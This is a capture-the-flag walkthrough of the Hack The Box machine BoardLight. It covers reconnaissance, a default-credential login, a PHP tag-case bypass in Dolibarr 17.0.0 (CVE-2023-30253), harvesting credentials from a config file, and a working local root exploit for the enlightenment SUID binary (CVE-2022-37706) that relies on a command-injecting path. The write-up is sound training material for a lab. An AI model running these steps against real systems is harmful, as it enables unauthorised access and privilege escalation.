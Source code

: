```yaml
---
title: HTB BoardLight Writeup 
published: 2024-09-28
description: "Writeup of machine 'BoardLight' from HTB"
image: 'BoardLight.png'
tags: [CTF, HTB, SUID, Dolibarr, DB Creds, Enlightenment, OSCP]
category: 'CTF writeup'
draft: false
---
```


# Overview

- Machine: BoardLight
- OS: Linux
- Difficulty: Easy

# Reconnaissance

## Port Scan

The first thing I did was run _nmap_ to discover the **open ports** on the target machine:
```bash
nmap -p- -sV -sC -oA nmap/nmap -v 10.10.11.11
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
[...]
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```
 
## Virtual host

Accessing the page running on port 80, we see that probably is a **static website** as demonstrated on _Figure 1_. At the bottom of the page, I see the DNS **board.htb**, as shown in _Figure 2_.

![BoardLight Homepage](homepage_board.png)
> _Figure 1_: **Homepage of '10.10.11.11'.**

![board.htb](./board_htb.png)
> _Figure 2_: **Discovery the DNS 'board.htb'.**

:::note
As always, I added 'board.htb' to the _/etc/hosts_ file.
:::

Accessing the the page '_board.htb_' returns an identical static site, so I started **brute forcing** with _ffuf_ to see if it has any **virtual host** with the following command:
```bash
ffuf -w /seclists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://10.10.11.11/' -H 'Host: FUZZ.board.htb' -fs 15949
[...]
crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 192ms]
```
:::note
I had to use the option '_-fs 15949_' to filter results by size because if the Vhost is not valid, the server will just return the static website.
:::

It was discovered that the VHOST '_crm.board.htb_' returns a different page, and accesing it, we can see the **_Dolibarr_ login page** as shown in _Figure 3_.

![Dolibarr](./dolibarr.png)
> _Figure 3_: **Dolibarr version '17.0.0'.**

Searching on google we discover that the **default credentials** for Dolibarr are _admin:admin_. Trying that, and we are in! But once inside, it seems like we have limited permissions, and most of the features give us access denied, as see in _Figure 4_. 

![Dolibarr Access denied](./dolibar_access_denied.png)
> _Figure 4_: **Dolibarr admin with limited permissions.**

# Exploitation

Searching for this Dolibarr version, we find that it is vulnerable to [CVE-2023-30253](https://www.swascan.com/security-advisory-dolibarr-17-0-0/). The CVE allows **executing PHP code** by bypassing an application restriction.

### How the vulnerablility works

1. First, if we don't have one, we need to create a website and a new page. 
2. Now with the page created, we click the "Edit HTML Source".
3. 1. On this page, if we try to insert PHP code with the tag **<?php ...?>**, it give us the following permission error. 
![Permission to add or edit PHP](./denied_php_tag.png)
> _Figure 5_: **Permission to write PHP code denied.**
3. 2. But if we change the PHP tag to **<?pHP ?>**, it saves the page and executes the PHP code. 
![Success save](./dolibarr_success_save.png)
> _Figure 6_: **Successfully saved the page and executed the PHP code.**
4. Now, we just need to send a reverse shell. I modified the [PHP reverse shell from PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell) to working with this CVE and waited for my connetion back.

# Privilege escalation

When I got the shell as **www-data user**, I upgraded it to a **TTY** one with _script_ and _stty_:
```bash
script -c /bin/bash -q /dev/null
<CTRL>z
stty raw -echo;fg 
```
## User flag

I got a shell as _'www-data'_, and while enumerating the open ports with `ss -ltnp`, I discovery that port **3306**(MySql) is open, so I immediately started looking for its **password** in the **Dolibarr configurate** files.

Going to dolibarr folder, I used the following _grep_ command to find out where the configurates are: </br>
`grep -ri 'db_name' | grep -v 'jquery'`

![Results of grep command](./grep_results.png)
> _Figure 7_: **Return of _grep_ command.**

It returned a lot of files, but the one that caught my attention was `/htdocs/conf/conf.php`.Opening the file and scrolling up, we find the **credentials** of the database, as demostrated at Figure 8.

![db](./db_pass.png)
> _Figure 8_: **Database credentials.**
:::warning
Remember to keep it simple. The first time on the machine, I spend some time going down the rabbit hole of getting the hashes from the database and trying to crack them. Remember to go for easy wins first.
:::

Now with that password, we can just run `su - larrisa` and paste the password we just got, and we will have the user flag in `/home/larrisa/user.txt`. 

## Root flag

After manually enumerating for some time, I found some **SUID binaries** with the following _find_ command:</br>
`find / -perm -u=s -type f 2>/dev/null`
![Results find](./result_find.png)
> _Figure 9_: **Return of the _find_ command**

Researching this binary, I found out that the version of **enlightenment** installed is vulnerable to **Privilege Escalation** with _CVE-2022-37706_.

### Steps to reproduce
1. Create two directories that confuse the logic of the binary:</br>
`mkdir -p /tmp/net`</br>
`mkdir -p "/dev/../tmp/;/tmp/exploit`
2. Create the file that the binary will execute on a **system()** call:
</br>`echo '/bin/sh' > /tmp/exploit`</br>
`chmod a+x /tmp/exploit`
3. Run the following command to get a root shell:
`/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net`

:::note
Can check more details about the vulnerability on the following GitHub.
::github{repo="MaherAzzouzi/CVE-2022-37706-LPE-exploit"}
:::

And with that we can get the **root flag** in `/root/root.txt`.

:::important[YouTube]
If you got lost at some point, I have a full Walkthough on YouTube:
<iframe width="560" height="315" src="https://www.youtube.com/embed/GxeAiKjv2A4?si=1v_dYdZluasosMmz" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>
:::
